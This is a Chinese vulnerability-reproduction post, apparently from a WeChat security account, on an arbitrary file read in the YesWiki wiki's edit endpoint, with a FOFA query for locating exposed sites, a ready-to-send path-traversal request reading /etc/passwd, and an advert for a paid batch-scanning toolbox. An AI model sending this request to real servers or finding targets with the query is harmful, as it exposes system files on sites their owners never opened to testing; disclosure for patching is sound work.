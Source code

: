 #  YesWiki知识库edit接口存在任意文件读取漏洞 附POC   
2025-4-10更新  南风漏洞复现文库   2025-04-10 23:27  
  
   
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. YesWiki知识库简介  
  
微信公众号搜索：南风漏洞复现文库  
  
该文章 南风漏洞复现文库 公众号首发  
  
YesWiki知识库  
## 2.漏洞描述  
  
YesWiki是一个开源、易用的 Wiki 平台，基于 PHP 和 MySQL 开发，适合个人、团队和组织快速搭建知识库或协作平台。它无需复杂配置，安装简单，支持多语言和插件扩展，用户可通过可视化编辑器轻松创建和编辑内容，适合技术门槛较低的用户使用。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
YesWiki知识库  
  
![YesWiki知识库edit接口存在任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFS1Ns91BJUOlreQkKp3DlNjQDBoqn0Kyib6H7fjbSWD9HKtQpGt8pGlA/640?wx_fmt=png&from=appmsg "null")  
  
YesWiki知识库edit接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="YesWiki"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/?UrkCEO/edit&theme=margot&squelette=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&style=margot.css  
  
漏洞数据包：  
```
GET /?UrkCEO/edit&theme=margot&squelette=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&style=margot.css HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFibGho4Qc5q9ec9lHvhdYZicn3RFCx8j5N5IKradWwRmEl2nRnMKic8Ocg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
  
2: 免登录，免费fofa查询。  
  
  
3: 更新其他实用网络安全工具项目。  
  
  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFibjatuPibXP6ib11PUTYuZNvf6bqaia7wiaRRwfZgxhwaHhiaicSlaUQ7Y9pg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFPe9AYKAVMbic0Ea5FP5s6WxBjtTtFRhuteyUL3TmS3aT9PXb4v8okMw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFPhnX44uplFRfX0aSGgiavvRzIoJxrrRMtbnQwkFsNibh6Gu0vthiam4CA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFibfyGxEmc3RMhSM0Fnqeslsicwlqydf3VD6VaEYoEawPmIlRp2oXePAg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFqtUkTIibIuodGZXoUXLkVWar24PnhBT5icibKmCn831enlylYmla6aiacg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
   
  
  
  
